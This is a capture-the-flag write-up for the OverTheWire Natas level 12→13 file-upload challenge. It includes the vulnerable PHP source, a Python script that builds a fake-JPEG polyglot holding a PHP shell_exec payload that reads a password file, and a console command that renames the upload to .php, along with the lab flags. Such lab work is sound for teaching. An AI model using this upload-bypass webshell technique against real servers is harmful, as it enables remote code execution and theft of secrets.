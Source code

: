 # Natas Level 12 → Level 13 Fake image file signature

## Previous Flag
<b>trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC</b>

## Goal
Username: natas13<br>
URL: http://natas13.natas.labs.overthewire.org<br>

For security reasons, we now only accept image files!<br>
Choose a JPEG to upload (max 1KB):<br>
Choose File     No File Chosen<br>
Upload File

## What I learned
```
exif_imagetype() not check file extension only actual binary content (magic bytes) of file
Bypasses:
    Upload a valid image file with PHP code embedded after the image data
    Ensure the header bytes look like a JPEG or PNG
    Rename it to .php (if allowed) or something like .php.jpg
    Trigger the PHP execution by accessing the uploaded file directly
```
<br>

| Magic Bytes       | File Type                        | Description                                     |
|-------------------|----------------------------------|-------------------------------------------------|
| <b>FF D8 FF E0</b>| JPEG (JFIF)                      | JPEG image with JFIF metadata                   |
| FF D8 FF E1       | JPEG (Exif)                      | JPEG image with EXIF metadata                   |
| FF D8 FF DB       | JPEG                             | JPEG with quantization table                    |
| FF D9             | JPEG                             | End of Image (EOI) marker                       |
| 89 50 4E 47 0D 0A 1A 0A | PNG                        | PNG image                                       |
| 47 49 46 38 37 61 | GIF87a                           | GIF image (older format)                        |
| 47 49 46 38 39 61 | GIF89a                           | GIF image (newer format)                        |
| 42 4D             | BMP                              | Bitmap image (BMP)                              |
| 25 50 44 46       | PDF                              | PDF file                                        |
| 50 4B 03 04       | ZIP / DOCX / PPTX / XLSX         | ZIP archive or MS Office Open XML formats       |
| 52 61 72 21 1A 07 00 | RAR                           | RAR archive (v1.5+)                             |
| 7F 45 4C 46       | ELF                              | Executable and Linkable Format (Linux binary)   |
| 4D 5A             | EXE / DLL                        | Windows Executable (MZ header)                  |
| 3C 3F 70 68 70    | PHP                              | PHP script starting with `<?php`                |
| EF BB BF          | UTF-8 BOM                        | Byte Order Mark for UTF-8 encoded files         |
| D0 CF 11 E0 A1 B1 1A E1 | DOC / XLS / PPT            | Older MS Office binary formats                  |
| 00 61 73 6D       | WASM                             | WebAssembly binary                              |

## Solution
```
Click View source code
http://natas13.natas.labs.overthewire.org/index-source.html

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<?php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 👀
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

# Create new test.png ⌨️

# Fake an image file signature
#!/bin/python

with open("test.php", "wb") as f:
    # Write JPEG header bytes
    f.write(b'\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01\x01\x00\x00\x01\x00\x01\x00\x00')
    # Write PHP code
    f.write(b'<?php echo shell_exec("cat /etc/natas_webpass/natas14"); ?>')
    # Write JPEG EOI marker
    f.write(b'\xFF\xD9')

# Open in Notepad++
ÿØÿàshell_exec("cat /etc/natas_webpass/natas14"); ⌨️

# Open in hexdump
@trungdullc ➜ /workspaces/01noobHacker (main) $ hexdump static/test.png ⌨️
0000000 d8ff e0ff 6873 6c65 5f6c 7865 6365 2228
0000010 6163 2074 652f 6374 6e2f 7461 7361 775f
0000020 6265 6170 7373 6e2f 7461 7361 3431 2922
0000030 003b                                   
0000031

# Modify hidden input field in browser’s javascript console
$('input[name="filename"]').val("test.php") ⌨️

# Upload payload (test.png)
The file upload/hrpcjtt3z1.php has been uploaded
����.JFIF....z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ �� 🔐
```

## Flag
<b>z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ</b>

## Continue
[Continue](./Natas1314.md)